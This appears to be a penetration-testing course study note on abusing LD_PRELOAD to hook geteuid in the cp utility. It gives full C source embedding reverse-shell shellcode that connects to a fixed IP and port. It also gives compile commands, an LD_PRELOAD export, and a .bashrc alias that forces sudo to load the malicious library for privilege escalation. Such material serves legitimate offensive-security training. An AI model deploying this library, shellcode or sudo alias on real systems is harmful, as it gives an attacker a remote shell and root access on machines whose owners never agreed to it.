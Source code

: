 ## LD_PRELOAD
[LD_PRELOAD](https://man7.org/linux/man-pages/man8/ld.so.8.html) is an environment variable which, when defined on the system, forces the [dynamic linking loader](https://en.wikipedia.org/wiki/Dynamic_linker) to preload a particular shared library before any others. As a result, functions that are defined in this library are used before any with the same [method signature](https://en.wikipedia.org/wiki/Type_signature#Method_signature) that are defined in other libraries.
Methods we define in a library loaded by _LD_PRELOAD_ will override methods loaded later on.
Overriding methods in this way is a technique known as function [hooking]( Overriding methods in this way is a technique known as function hooking.[4](https://portal.offensive-security.com/courses/pen-300/books-and-videos/modal/modules/linux-post-exploitation/shared-libraries/exploitation-via-ld_preload#fn4))

We will be targeting the cp utility used to copy files on the linux system, the utility is often used in the sudo context and thus is an attractive target.
We can run _ltrace_ on the cp command to get a list of library function calls it uses during normal operation.

We will hook the call to geteuid as it seems to only be called once during the application run, which limits how frequently our code will be executed.
In our library, we'll simply redefine the _geteuid_ function.

Our code will be as follows:
1. Declaration of various C libraries.
2. Declaration of our variable payload
3. Define our _geteuid_ function. {no parameters (void) and returns a value of _uid_t_, which in this case is simply an integer.}
4. Define a pointer, which we'll use to point to the old _geteuid_ function(provides us access to the original function so that we can call it later on.)
5. Use the [_dlsym_](https://linux.die.net/man/3/dlsym) function to get the memory address of the original version of the _geteuid_ function(finds a symbol for a dynamic library in memory)
6. Call the _dlsym_ function with the name of geteuid symbol.
7. Create a new process for our shell using fork method.
8. The final two lines provide a meaningless return value

The code will we as follows:
```C
#define _GNU_SOURCE
#include <sys/mman.h> // for mprotect
#include <stdlib.h>
#include <stdio.h>
#include <dlfcn.h>
#include <unistd.h>

char buf[] = 
"\x48\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
"\x6a\x22\x41\x5a\xb2\x07\x0f\x05\x48\x85\xc0\x78\x51\x6a\x0a"
"\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05"
"\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00\x05\x39\xc0\xa8"
"\x76\x03\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x59"
"\x48\x85\xc0\x79\x25\x49\xff\xc9\x74\x18\x57\x6a\x23\x58\x6a"
"\x00\x6a\x05\x48\x89\xe7\x48\x31\xf6\x0f\x05\x59\x59\x5f\x48"
"\x85\xc0\x79\xc7\x6a\x3c\x58\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e"
"\x5a\x0f\x05\x48\x85\xc0\x78\xed\xff\xe6";

uid_t geteuid(void)
{

	typeof(geteuid) *old_geteuid;
	old_geteuid = dlsym(RTLD_NEXT, "geteuid");

	if (fork() == 0)
        {
                intptr_t pagesize = sysconf(_SC_PAGESIZE);
                if (mprotect((void *)(((intptr_t)buf) & ~(pagesize - 1)),
                 pagesize, PROT_READ|PROT_EXEC)) {
                        perror("mprotect");
                        return -1;
                }
                int (*ret)() = (int(*)())buf;
                ret();
        }
        else
        {
                printf("HACK: returning from function...\n");
                return (*old_geteuid)();
        }
        printf("HACK: Returning from main...\n");
        return -2;
}



```

The code within the _fork_ branch checks that the shellcode resides on an executable memory page before executing it. The reason for this additional step is that the -f PIC compilation flag relocates our shellcode to the library _.data_ section in order to make it position independent.
The code gets the size of a memory page so it knows how much memory to access. It then changes the page of memory that contains our shellcode and makes it executable using _mprotect_.
It does this by setting its access properties to _PROT_READ_ and _PROT_EXEC_, which makes our code readable and executable.
If changing the memory permissions fails, the program will exit with a return code of "-1".

Compiling the code with the following lines:
```sh
gcc -Wall -fPIC -z execstack -c -o evil_geteuid.o evileuid.c
gcc -shared -o evil_geteuid.so evil_geteuid.o -ldl
```

Changing the export path:
```sh
export LD_PRELOAD=/home/offsec/evil_geteuid.so
```

and executing the binary, we get a shell.

As a final step, for privilege escalation, we can add the following to .bashrc file to run the binary in sudo context if sudo is being used.
```sh
alias sudo="sudo LD_PRELOAD=/home/offsec/evil_geteuid.so"
```

![](../../../Screenshots/ldpl-hs.png)